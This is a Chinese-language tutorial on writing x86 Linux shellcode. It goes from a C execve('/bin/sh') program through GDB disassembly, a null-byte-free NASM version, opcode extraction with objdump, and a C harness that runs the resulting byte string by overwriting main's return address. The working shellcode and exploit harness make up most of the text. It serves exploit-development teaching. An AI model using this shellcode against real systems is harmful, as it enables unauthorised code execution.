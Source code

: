 # Shellcode  

----------------------------------

### 0x00 前言  
介绍 shellcode 的编写。  
Shellcode实际是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限。另外，Shellcode一般是作为数据发送给受攻击服务器的。


### 0x01 shellcode的作用 
shellcode是一段代码，是一段机器可以执行的二进制(opcode)，当我们通过二进制漏洞挖掘，找到一个可以利用的漏洞后，就需要我们编写shellcode，来执行一些功能或者是提权操作。


### 0x02 一段 C 的利用程序  
我们想通过一段代码来获取一个shell，写一段 C 的利用程序：
	
	#include <stdio.h>

	int main() {
		char* happy[2];
		happy[0] = "/bin/sh";
		happy[1] = NULL;

		execve(happy[0], happy, NULL);
	
		return 0;
	}
	
这段代码可以获得一个 `sh` 的shell：

	[root@CentOS7x86 test]# gcc 2.c -o xx
	[root@CentOS7x86 test]# ./xx 
	sh-4.2# 
	
通过 GDB 反汇编代码，分析一下程序的流程，便于我们写汇编代码以提取shellcode：

	[root@CentOS7x86 test]# gdb xx 
	gdb-peda$ disas main
	Dump of assembler code for function main:
	   0x08048420 <+0>:		push   ebp
	   0x08048421 <+1>:		mov    ebp,esp
	   0x08048423 <+3>:		and    esp,0xfffffff0
	   0x08048426 <+6>:		sub    esp,0x20
	   0x08048429 <+9>:		mov    DWORD PTR [esp+0x18],0x80484f4
	   0x08048431 <+17>:	mov    DWORD PTR [esp+0x1c],0x0
	   0x08048439 <+25>:	mov    eax,DWORD PTR [esp+0x18]
	   0x0804843d <+29>:	mov    DWORD PTR [esp+0x8],0x0
	   0x08048445 <+37>:	lea    edx,[esp+0x18]
	   0x08048449 <+41>:	mov    DWORD PTR [esp+0x4],edx
	   0x0804844d <+45>:	mov    DWORD PTR [esp],eax
	   0x08048450 <+48>:	call   0x8048310 <execve@plt>
	   0x08048455 <+53>:	mov    eax,0x0
	   0x0804845a <+58>:	leave  
	   0x0804845b <+59>:	ret    
	End of assembler dump.

通过分析后，是将 `/bin/sh` 压入栈，然后放入到该字符串地址放入到 ebx 中，将命令行参数放入到 ecx 中，将环境变量指针放入 edx 中，将 11 放入 eax 中，然后通过 `int 80` 调用软中断，调用系统调用 `execve`


### 0x03 提取shellcode
分析完上面的反汇编代码后，我们就可以通过编写汇编代码，或者是 C 的内联汇编来编写利用程序提取 shellcode。（这里用x86汇编，nasm编译）

	section .text
	global _start

	_start:				;_start
	xor eax, eax
	push eax			;push \x00
	push 0x68732f2f		;push //sh
	push 0x6e69622f		;push /bin
	mov ebx, esp		;ebx = esp	address of "/bin//sh"
	push eax			;push \x00
	push ebx			;push address of "/bin//sh"
	mov ecx, esp		;ecx = esp	address of array
	xor edx, edx		;edx = 0
	mov al, 0xb			;al = 11	execve system call
	int 0x80			;soft irq

	;ebx: 可执行文件路径的指针
	;ecx: 命令行参数的指针
	;edx: 环境变量的指针

	;nasm -f elf 3.asm
	;ld -o xx 3.o

在编写 shellcode 的时候要避免一些不可用字符，比如 `\0` 字符出现在shellcode中，当漏洞程序使用字符串处理函数进行处理时，就会造成截断情况。所以上面部分在为 `/bin/sh` 加入 `\0` 字符时，是先将 `xor eax, eax`，再将 eax 压入栈中截断字符串。  
（PS：这里 `/bin/sh` 改为 `/bin//sh` 压入栈，也是避免不可用字符； `/bin//sh` 的效果和 `/bin/sh` 一样）

执行效果：  
	
	[root@CentOS7x86 test]# nasm -f elf 3.asm
	[root@CentOS7x86 test]# ld -o xx 3.o
	[root@CentOS7x86 test]# ./xx 
	sh-4.2# 

现在开始提取shellcode，linux下使用 `objdump -d` 可以得到程序的反汇编代码和对应的 opcode：

	[root@CentOS7x86 test]# objdump -d xx 

	xx：     文件格式 elf32-i386


	Disassembly of section .text:

	08048060 <_start>:
	 8048060:	31 c0                	xor    %eax,%eax
	 8048062:	50                   	push   %eax
	 8048063:	68 2f 2f 73 68       	push   $0x68732f2f
	 8048068:	68 2f 62 69 6e       	push   $0x6e69622f
	 804806d:	89 e3                	mov    %esp,%ebx
	 804806f:	50                   	push   %eax
	 8048070:	53                   	push   %ebx
	 8048071:	89 e1                	mov    %esp,%ecx
	 8048073:	31 d2                	xor    %edx,%edx
	 8048075:	b0 0b                	mov    $0xb,%al
	 8048077:	cd 80                	int    $0x80


### 0x04 执行 
上一步中得到了 opcode，可以利用了：

	char shellcode[] = 
		"\x31\xc0"
		"\x50" 
		"\x68\x2f\x2f\x73\x68"
		"\x68\x2f\x62\x69\x6e"
		"\x89\xe3"
		"\x50"
		"\x53"
		"\x89\xe1" 
		"\x31\xd2"
		"\xb0\x0b"
		"\xcd\x80";

	int main() {
		int *ret;

		ret = &ret + 2;
		*ret = shellcode;

		return 0;
	}

执行效果：  
（这里编译的时候加上 `-z execstack` 让栈上可执行，我们的shellcode的起始位置是`main`的返回地址的位置，位于栈上）

	# gcc 4.c -z execstack -o xx 
	# ./xx 
	sh-4.2# 

ok.


</br>

-----------------------------------  
References:  
《The shellcoder's handbook》

Author: xx  
Time: 2017.4.19